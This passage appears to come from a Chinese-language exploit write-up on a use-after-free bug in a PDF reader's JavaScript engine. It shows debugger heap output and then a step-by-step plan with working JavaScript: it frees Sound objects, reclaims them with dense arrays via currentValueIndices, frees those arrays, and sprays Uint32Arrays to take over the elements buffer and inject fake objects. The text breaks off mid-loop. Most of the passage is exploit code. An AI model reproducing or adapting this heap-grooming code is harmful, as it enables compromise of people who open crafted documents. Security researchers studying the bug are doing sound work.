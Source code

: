 ```
08c62238  0000000a ffffff81 0000000b ffffff81
08c62248  0000000c ffffff81 0000000d ffffff81
08c62258  0000000e ffffff81 0000000f ffffff81
0:000&gt; !heap -p -a 08c621e8
    address 08c621e8 found in
    _HEAP @ 5570000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        08c621d0 0023 0000  [00]   08c621d8    00110 - (busy)
```

因此，我们现在的目标是覆盖这个elements缓冲区以注入伪造的Javascript对象。这是我目前的计划：<br>
1.释放Sound对象；<br>
2.尝试使用currentValueIndices分配密集数组到释放的Sound对象位置；<br>
3.释放密集数组；<br>
4.尝试分配到释放的elements缓冲区中；<br>
5.注入伪造的Javascript对象。<br>
下面的代码遍历SOUNDS数组以释放其元素并使用currentValueIndices回收它们：

```
/* free and reclaim sound object */
RECLAIM_SZ         = 512
RECLAIMS         = Array(RECLAIM_SZ)
THRESHOLD_SZ     = 1024*6
NTRY             = 3
NOBJ             = 8 //18
for(var i=0; i&lt;NOBJ; i++) {
    SOUNDS[i] = null //free one sound object
    gc()

    for(var j=0; j&lt;THRESHOLD_SZ; j++) f.currentValueIndices
    try {
    //if the reclaim succeed `this.getSound` return an array instead and its first element should be 0
         if (this.getSound(i)[0] == 0) {
             RECLAIMS[i] = this.getSound(i)
        } else {
            console.println('RECLAIM SOUND OBJECT FAILED: '+i)
            throw ''
        }
    }
    catch (err) {
        console.println('RECLAIM SOUND OBJECT FAILED: '+i)
        throw ''
    }
    gc()
}
console.println('RECLAIM SOUND OBJECT SUCCEED')
```

接下来，我们将释放所有密集数组，并尝试使用TypedArray将其分配回elements缓冲区。我在数组的开头放置了伪造的整数0x33441122，以检查是否回收成功。然后将带有可控elements缓冲区的损坏数组放入变量T：

```
/* free all allocated array objects */
this.removeField("f")
RECLAIMS     = null
f             = null
FENCES         = null //free fence
gc()

for (var j=0; j&lt;8; j++) SOUNDS[j] = this.getSound(j)
/* reclaim freed element buffer */
for(var i=0; i&lt;FREE_110_SZ; i++) {
    FREES_110[i] = new Uint32Array(64)
    FREES_110[i][0] = 0x33441122
```
